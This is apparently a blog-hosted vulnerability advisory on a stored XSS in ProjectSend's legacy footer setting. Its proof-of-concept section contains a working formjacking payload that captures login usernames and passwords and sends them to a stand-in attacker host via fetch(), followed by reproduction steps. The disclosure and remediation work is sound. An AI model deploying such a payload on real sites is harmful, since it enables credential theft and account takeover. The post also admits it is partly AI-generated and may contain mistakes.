

Stored XSS in "Footer Content" Setting Leads to Site-Wide Credential Harvesting via Login Form Hijacking¶
| Metric | Details |
|---|---|
| Severity Rating | High |
| CVSS v4 score | 8.3 |
| CVSS v4 vector | CVSS:4.0/AV:N/AC:L/AT:N/PR:H/UI:A/VC:H/VI:H/VA:L/SC:N/SI:N/SA:N |
| Component Affected | ProjectSend (legacy branch) |
| Affected Versions | <= r2029 (latest legacy release as of 2026-07-10) |
| Patched Version | r2098 |
| Vulnerability Class | CWE-79 (Stored XSS), specifically CWE-83 (Improper Neutralization of Script in Attributes in a Web Page) |
| Reporter | Venkata Karthik Kakarla |
Basic primitive, non-basic exploitation
CWE-79 is the umbrella weakness, but it's broad enough to cover reflected, DOM-based, and stored XSS alike. The specific mechanism here sits under CWE-83 — the sanitizer only filters tag names via an allowlist and never inspects the attributes on the tags it permits, so an event-handler attribute like onmouseover rides through untouched on an otherwise-allowed <span>. That precision matters here: what isn't textbook is the exploitation chain built on top of it. Rather than a proof-of-concept alert(1), the payload performs live formjacking against the login form, arming a credential-exfiltration listener on hover and shipping captured username/password values out-of-band before the application ever validates them, deliberately routing around the HttpOnly cookie flag rather than attempting to defeat it. That's the same technique class used in real-world Magecart-style payment-skimming attacks, applied here to an authentication form instead of a checkout form.
Affected versions
ProjectSend recently underwent a major revision: the classic codebase (up to r2029/r2098) has been marked Legacy, and development has moved to a rewritten, Laravel-based codebase released as v2.0.0 and v2.1.0. This advisory targets the legacy branch only — effectively all legacy releases <= r2029 are affected. The fix was subsequently backported to the legacy branch in r2098; the new Laravel-based v2.x line was not assessed as part of this research.
Summary¶
The "Footer Content" field under Options → General Options → Site Information accepts arbitrary HTML with no output sanitization or encoding. Because the footer is rendered on every page of the application, including the unauthenticated login page, an attacker who holds a privilege capable of editing this setting (by default, the System Administrator role, or any custom role granted the Edit Settings permission) can persist a malicious payload that executes in the browser of every subsequent visitor, including users who have not yet authenticated.
The submitted proof-of-concept weaponizes this to perform Credential Harvesting: hovering over the injected footer element attaches an event listener to the login form's submit button that intercepts the username and password field values and exfiltrates them via an out-of-band HTTP request to an attacker-controlled domain at the moment the victim submits their login credentials, before the credentials are ever validated by the application.
Because the application's session cookie is issued with the HttpOnly flag, direct session-cookie theft via document.cookie is not possible through this vector; the credential-harvesting technique demonstrated here was chosen specifically because it does not depend on cookie access and fully bypasses that mitigation.
Affected Component¶
- Injection point: Options → General Options → Site Information → Footer Content
- Rendered at: Global application footer (
<div id="footer">), present on every page, including the login page which extendsfooter.php - Rendering function:
render_footer_text()
Vulnerable Code¶
function render_footer_text()
{
?>
<footer>
<div id="footer">
<?php
if (is_projectsend_installed() && get_option('footer_custom_enable') == '1') {
echo strip_tags(get_option('footer_custom_content'), '<br><span><a><strong><em><b><i><u><s>');
} else {
...
}
?>
</div>
</footer>
<?php
Root Cause¶
The stored footer content is filtered using PHP's strip_tags() with a tag-name allowlist (<br><span><a><strong><em><b><i><u><s>). strip_tags() only removes disallowed tag names — it does not inspect, filter, or strip attributes on tags that are allowed through. Since <span> and <a> are permitted, an attacker can freely attach any attribute to them, including executable event-handler attributes such as onmouseover, onclick, onfocus, etc., and these are echoed into the page verbatim with no further HTML-entity encoding.
This is a well-documented class of allowlist bypass: tag-name stripping is not equivalent to HTML sanitization, and is explicitly called out as an anti-pattern in the OWASP XSS Prevention Cheat Sheet, which notes that simple tag stripping fails specifically because it doesn't address event-handler attributes on permitted tags, and recommends a real HTML sanitization library instead.
Privilege Required to Inject¶
By default, only the System Administrator role can access Options → General Options. However, ProjectSend supports granular, custom role creation, and any custom role granted the Edit Settings permission without being granted full System Administrator rights can also reach and modify this field. This creates two distinct risk pathways, detailed under Impact below.
Proof-of-Concept¶
Payload saved into Footer Content:
<span href="#" tabindex="0" onmouseover="console.log('Payload injected, submit button now exfils credentials'); document.getElementById('login_form').addEventListener('submit', function(e){ var u = document.getElementById('username').value; var p = document.getElementById('password').value; fetch('http://threatactor.domain' + '/log?u=' + u + '&p=' + p); }, true); ">Hover to inject payload to submit button - Credential harvest</span>
Resulting rendered HTML on every page (including the login page):
<div id="footer">
<span href="#" tabindex="0" onmouseover="console.log('Payload injected, submit button now exfils credentials'); document.getElementById('login_form').addEventListener('submit', function(e){ var u = document.getElementById('username').value; var p = document.getElementById('password').value; fetch('http://threatactor.domain' + '/log?u=' + u + '&p=' + p); }, true);">Hover to inject payload to submit button - Credential harvest
<span></span>
</span>
</div>
An out-of-band domain (oastify.com, Burp Collaborator) was used for exfiltration to provide unambiguous, blind confirmation of successful credential capture independent of application logging.
Attack Vector Breakdown¶
- Injection Delivery: An attacker holding the
Edit Settingspermission stores the crafted<span>payload in the Footer Content field via the admin settings UI. - Sanitization Bypass:
strip_tags()allows<span>through its tag allowlist but performs no attribute filtering, so theonmouseoverevent handler survives untouched. - Global Persistence:
render_footer_text()echoes the stored content into every page footer application-wide, including the unauthenticated login page. - Victim Interaction: A victim (authenticated or not) hovers over the injected footer text, executing the handler and attaching a
submitlistener to the login form. - Credential Exfiltration: When the victim submits the login form, the listener reads the
usernameandpasswordfield values and sends them viafetch()to an attacker-controlled domain before the credentials are validated by the application.
Steps to Reproduce¶
- Authenticate to ProjectSend as a user holding the
Edit Settingspermission (default: a user with role System Administrator). - Navigate to Options → General Options → Site Information.
- Paste the payload above into the Footer Content field and save. (You will need to modify the payload to point at your own domain or IP address to listen for OOB requests.)
- Log out, or open a private/incognito browser session.
- Navigate to the ProjectSend login page as an unauthenticated visitor.
- Hover the mouse cursor over the injected footer text ("Hover to inject payload to submit button - Credential harvest"). This attaches the credential-exfiltration listener to the login form's submit button.
- Enter any username/password and click the submit/login button.
- Observe the interaction received on the attacker-controlled OOB listener, containing the
u(username) andp(password) values submitted by the victim, captured before the login request completes.
(Evidence: screenshots of the saved payload in the admin settings UI, the rendered footer on the login page, and the OOB listener interaction log showing captured u=/p= values.)

Impact¶
Because the Footer Content field renders on every page, this is first and foremost a site-wide stored XSS, with the login-page credential-harvesting chain serving as a high-impact demonstration of exploitability against both authenticated and unauthenticated users. Session-cookie theft is not viable due to HttpOnly, but credential capture is unaffected by that control and yields full account takeover directly.
Pathway 1: Default configuration (System Administrator attacker)
Even though the injecting party already holds full administrative rights, this is not a self-limiting bug:
- The payload persists independently of the attacker's own account and privileges. An administrator who is later demoted, offboarded, or has their access revoked can retain a durable credential-harvesting backdoor that continues operating after their legitimate access is gone.
- The attacker can harvest credentials of other administrators or users to act under a different identity, avoiding their own audit trail (attribution laundering).
- Any user segmentation (e.g., per-admin client/project visibility, if present) can be bypassed by simply logging in as a harvested identity rather than using the attacker's own scoped account.
Pathway 2: Non-default configuration (custom role with Edit Settings)
If a deployment has granted Edit Settings to a custom role short of full System Administrator, this becomes a direct privilege escalation primitive: a moderately privileged user can harvest a genuine System Administrator's credentials the next time they log in, escalating to full administrative control of the application. This pathway requires a non-default RBAC configuration and is documented separately here rather than folded into the primary CVSS score.
Remediation Recommendations¶
To eliminate this vulnerability and protect deployment environments against site-wide stored XSS and credential harvesting, developers and platform administrators should apply the following remediation steps.
- Stop relying on
strip_tags()for XSS prevention.strip_tags()is a tag-name filter, not an HTML sanitizer. It was never designed to strip attributes, and per the OWASP XSS Prevention Cheat Sheet, attribute-blind tag stripping is a known-insufficient pattern precisely because event-handler attributes (onmouseover,onclick,onerror, etc.) survive on any tag left in the allowlist.render_footer_text()must not usestrip_tags()as its only control. - If the footer only needs to display plain text, drop HTML support entirely and output-encode with
htmlspecialchars($content, ENT_QUOTES, 'UTF-8')instead ofstrip_tags(). This is the simplest and most robust fix if rich formatting (bold/italic/links) isn't a hard requirement. - If limited rich-text formatting must be preserved (the current
<br><span><a><strong><em><b><i><u><s>allowlist suggests it is), replacestrip_tags()with a real HTML sanitization library such as HTML Purifier (PHP) configured with an explicit tag and attribute allowlist that excludes allon*event handlers andjavascript:/data:URI schemes inhref/src. Do not attempt to hand-roll attribute stripping with regex — this is the same class of mistake as the currentstrip_tags()usage. - Apply the same fix to any other setting rendered through
strip_tags()with a tag allowlist elsewhere in the codebase. This pattern should be audited application-wide, not just inrender_footer_text(). - Deploy a restrictive Content-Security-Policy (disallowing inline event handlers via a nonce/hash-based policy, and restricting
connect-src/form-action) as defense-in-depth so that even a future regression in output filtering cannot be trivially weaponized for data exfiltration the way this PoC demonstrates. - Apply the principle of least privilege to the
Edit Settingspermission when assigning custom roles, and consider flagging in documentation that this permission is equivalent to full administrative trust given its ability to affect all users application-wide.
Disclosure Timeline¶
- 10 July 2026, 01:45 AEST — Reported to ProjectSend maintainers via contact@projectsend.org.
- Patched in r2098 — Maintainers shipped a fix on the legacy branch, tightening output handling on the Footer Content setting.
References¶
- Fix commit (legacy branch): projectsend/legacy@612fe2f
AI generated content
Some of the content on this blog is generated by AI and may contain mistakes. If you notice an issue or technical oversight, please reach out via email at hello@x6b.me.